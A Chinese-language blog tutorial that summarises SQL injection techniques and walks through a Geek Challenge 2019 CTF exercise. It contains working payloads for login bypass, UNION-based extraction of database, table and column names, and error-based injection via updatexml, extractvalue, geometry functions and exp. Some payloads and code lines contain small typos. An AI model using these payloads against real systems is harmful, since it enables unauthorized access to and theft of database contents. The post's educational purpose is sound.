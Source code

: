 ```yaml
---
layout: post 
title: "sql注入总结（一）"
date: 2020-04-22
author: su29029
tags: Web
---
```

sql注入是个很复杂的东西，这里分多篇来总结一些常见的注入姿势。
## 0x00 注入原理
sql注入，即通过在sql查询的过程中通过构造特殊输入，改变原有sql语句的结构，从而实现执行攻击者想要执行的sql语句。    
例如，我们有如下代码：   
```
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id=" . $id;
```
如果我们构造```/?id=1%20or%201=1```那么此时query将会变成```"SELECT * FROM users WHERE id=1 or 1=1"```,此时where后面的语句永远为真，故sql语句成功执行，造成sql注入。 
## 0x01 注入类型
### 按变量类型分类
- 数字型
- 字符型

### 按提交方式分类
- GET型
- POST型
- COOKIE型

### 按注入方式分类
- union联合查询注入
- 报错注入
+ 盲注
    + 基于时间的盲注
    + 基于布尔的盲注

### 编码
- 宽字节注入

## 0x02 万能密码
万能密码是指，在一个登录接口中如果存在sql注入，可以通过构造where子句永远为真从而实现登录。例如：   
```
$username = $_GET['username'];
$password = $_GET['password'];
$query = "SELECT * FROM users WHERE username='" . $id . "'and password='" . $password . "'";
```
首先我们知道```#```和```--```是sql语句中的注释，其中```--```后面需要加一个空格。这里我们巧妙构造输入```/?username=admin%27%20or%201=1%20%23```，这时sql语句变为```"SELECT * FROM users WHERE username='admin' or 1=1 #and password=''"```从而```and password=''```这部分内容被注释掉了，sql语句永远为真，造成sql注入。   
## 0x03 联合查询注入
联合查询注入是一种常用的注入方式，它借助的是大于等于5.0版本的MySQL中的```information_schema```数据库，```information_schema```数据库中存储了MySQL服务器所维护的其他所有数据库的信息。例如数据库名，数据表名，列名，列的数据类型等。这时通过```union```关键字进行联合查询即可查询到大量信息。   

举个简单的题目的例子，2019极客大挑战的一道sql注入题。(复现环境https://buuoj.cn/challenges)   
拿到题目，使用```1'```登录，发现sql报错，故存在注入点。   
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）1.jpg">   
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）2.jpg">   
这里首先尝试万能密码登录，```/check.php?username=admin%27%20%23&password=123```，发现成功登录，显示了登录用户名和一串密码。  
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）3.jpg">   
将第一个查询字段的```admin```置为一个不存在的值[不这么做的话会无法显示union select查询出的值]，然后判断列数，发现共计3列，尝试第四列则报错。  
```
/check.php?username=admn%27%20order%20by%1,2,3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）4.jpg">   

```
/check.php?username=admn%27%20order%20by1,2,3,4%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）5.jpg">   

判断一下列名对应的内容：  
```
/check.php?username=admn%27%20union%20select%201,2,3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）6.jpg">   

发现第二列对应username，第三列对应password。   
下面开始union select注入。首先查数据库名。数据库名对应的是```information_schema.schemata```数据表，这里面存储的是所有数据库的信息。    

```
/check.php?username=admn%27%20union%20select%201,(select%20group_concat(schema_name)%20from%20information_schema.schemata),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）7.jpg">    

下一步查询数据表，所有数据表名信息存储在```information_schema.tables```数据表中。例如查询geek数据库的数据表名：   
```
/check.php?username=admn%27%20union%20select%201,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema="geek"),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）8.jpg">   

下一步查询列名，所有列名信息存储在```information_schema.columns```数据表中。例如查询l0ve1ysq1表中的所有列名：  

```
/check.php?username=admn%27%20union%20select%201,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema="geek"%20and%20table_name="l0ve1ysq1"),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）9.jpg">   
最后通过limit限制行数一行一行查询表中的内容，最终得到flag。  

```
/check.php?username=admn%27%20union%20select%201,(select%20password%20from%20geek.l0ve1ysq1%20limit%2015,1),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）10.jpg">   

## 0x04 堆叠注入
堆叠注入指的是在某些情况下，后端的sql语句执行函数可以执行多条命令(例如mysqli_multi_query())，这个时候我们可以通过```;```来结束前一条sql语句，随后再在分号后面写入sql，从而实现“堆一堆”sql语句进行注入。而```;```后的语句理论上没有过滤的话则可以为所欲为。    
不过堆叠注入利用的条件有限，因为一般情况下后台的sql执行函数为安全起见只允许执行单一sql，分号后的语句将会被忽略。  
## 0x05 报错注入
报错注入一般应用在正确执行无回显，而若发生错误会显示错误的情况下。这时可以使用报错注入的方式获得数据库信息。   
报错注入常用函数：   
#### updatexml()
函数原型：```UPDATEXML(XML_document, XPath_string, new_value);```
第一个参数：```XML_document```，是String格式，是XML文档对象的名称   
第二个参数：```XPath_string```，XPath格式的字符串   
第三个参数：```new_value```，String格式，替换查找到符合条件的数据   
函数作用：改变文档中符合条件的节点的值。   
注：updatexml最多只能显示32位，需要配合substr等字符串处理函数使用。   
例如：
```
http://example.com/index.php?id=1 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```
#### extractvalue()
函数原型：```EXTRACTVALUE(XML_document, XPath_string)```   
参数含义同上。   
举例:   
```
http://example.com/index.php?id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```
#### 几何对象
MySQL中支持的几何数据类型包括Geometry,Point,LineString,Polygon以及集合类型的MultiPoint,MultiLineString,MultiPolygon,GeometryCollection.其中Geometry可以表示任意一种几何类型，即在MySQL中，如果一个字段类型是Geometry，则可以存储Point、LineString等其它几何类型的值。其他的几种则需要固定有效的表示格式。   
我们可以借助几何对象的相关函数进行报错注入。   
geometrycollection():```id=1 and geometrycollection((select * from(select * from(select user())a)b))```   
multipoint():```id=1 and multipoint((select * from(select * from(select user())a)b))```   
polygon():```id=1 and polygon((select * from(select * from(select user())a)b))```   
multipolygon():```id=1 and multipolygon((select * from(select * from(select user())a)b))```   
linestring():```id=1 and linestring((select * from(select * from(select user())a)b))```   
multilinestring():```id=1 and multilinestring((select * from(select * from(select user())a)b))```   
#### exp()
例子：
```id=1 and exp(~(select * from(select user())a))```   

OK,先总结这么多，剩下的内容下次再总结。




